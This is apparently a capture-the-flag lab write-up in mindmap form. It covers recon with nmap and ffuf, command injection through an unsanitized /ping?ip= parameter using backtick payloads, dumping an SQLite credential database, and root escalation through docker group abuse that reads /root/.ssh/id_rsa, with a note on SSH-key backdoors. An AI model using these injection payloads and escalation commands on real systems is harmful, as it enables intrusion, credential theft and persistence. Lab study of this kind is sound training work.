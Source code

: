 ```jsx
ROOT ACCESS
│
├── Initial Recon
│   ├── nmap -sS -p- → ports 21, 22, 8081, 31331
│   ├── FFUF → /partners.html discovered
│   ├── Burp Suite Sitemap + Manual Browsing
│   └── JS Source Review (Node.js Express backend revealed)
│
├── Web Exploitation (Port 8081)
│   ├── Endpoint: /ping?ip= → unsanitized param
│   ├── TypeError → source path leak → index.js
│   ├── Confirmed Command Injection: ip=`id`
│   └── Payloads Tested:
│       ├── `id`, `whoami`, `ls`
│       └── `cat utech.db.sqlite`
│
├── Credential Extraction
│   ├── Dumped SQLite DB via CMDi
│   └── Extracted password hashes or creds
│       └── SSH access to valid user
│
├── Privilege Escalation (Docker Group Abuse)
│   ├── id → User in docker group
│   ├── docker run -v /:/mnt --rm -it bash chroot /mnt sh
│   ├── Chrooted into full root FS
│   └── Read /root/.ssh/id_rsa → full root key
│
└── Shell Secured (Persistence Optional)
    ├── Loaded keys or SSH config
    └── Could create user/add SSH key for backdoor

```

- Big mindmap via command injection and docker abuse
    
    ```jsx
    Initial Recon
    ├── Full TCP Port Scan
    │   └── nmap -sS -p- -oN nmap.all 10.10.43.71
    │       → Ports: 21 (FTP), 22 (SSH), 8081 (Node.js), 31331 (Apache)
    │
    ├── Service & Version Detection
    │   └── nmap -sCV -p21,22,8081,31331 -oN nmap.scripts 10.10.43.71
    │
    ├── Web Enumeration (31331, 8081)
    │   ├── Manual browsing
    │   │   └── Found partners.html → hits /auth endpoint
    │   ├── FFUF directory fuzzing
    │   │   └── ffuf -u <http://10.10.43.71:31331/FUZZ> -w ... 
    │   └── Header & tech checks
    │       └── whatweb, curl -I, Burp headers
    ```
    